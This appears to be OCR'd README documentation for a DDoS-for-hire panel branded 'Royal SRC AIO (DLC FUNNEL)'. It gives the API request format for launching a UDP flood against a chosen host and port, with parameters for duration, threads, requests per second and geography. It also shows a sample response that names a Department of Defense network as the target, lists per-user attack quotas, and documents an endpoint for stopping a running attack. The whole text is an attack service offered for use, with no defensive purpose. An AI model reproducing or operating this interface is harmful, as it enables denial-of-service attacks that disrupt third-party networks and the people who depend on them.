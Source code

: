 >**Send API attack using assets/funnel.json (assets/dlc/funnel.json if you have Dlc Acces)**
URL: https://YOUR_CLOUDFLARE_DOMAIN/api/attack?username=testo&password=testo&host=44.44.44.44&port=80&time=60&method=udp
Optional API params: &concurrents=1 &rps=64 &threads=10 &geo=EU

    Response:
        {
            "error": true,
            "message": "API response will be here."
        }
        OR
        {
            "Target": "33.33.33.33",
            "Port": 80,
            "Method_Used": "udp",
            "Time_Used": 60,
            "Len": "1",
            "Threads": 10,
            "RPS": 100,
            "Geo": "EU",
            "target_asn": "AS749 DoD Network Information Center",
            "target_city": "Whitehall",
            "target_country": "United States",
            "target_country_code": "US",
            "target_isp": "DoD Network Information Center",
            "target_org": "DoD Network Information Center",
            "target_region": "Ohio",
            "target_timezone": "America/New_York",
            "target_zip": "43218",
            "Username": "test",
            "Max_Time": 60,
            "Max_Concurrents": 1,
            "Cooldown": 10,
            "Max_Daily_Attacks": "500/500",
            "Holder_Status": false,
            "Vip_Status": false,
            "Api_Status": true,
            "Admin_Status": true,
            "Royal_Infos": "Royal SRC AIO (DLC FUNNEL) By ~ @Royaloakap ~"
        }    

>**Kill Attack in running**
URL: https://YOUR_CLOUDFLARE_DOMAIN/api/stop?username=YOUR_USERNAME_HERE&password=YOUR_PASSWORD_HERE&host={target}

    Response:
        {
            "error": true,
            "message": "API response will be here."
        }
        OR
		{
			"error":     false,
			"kill_id: "1"
		}
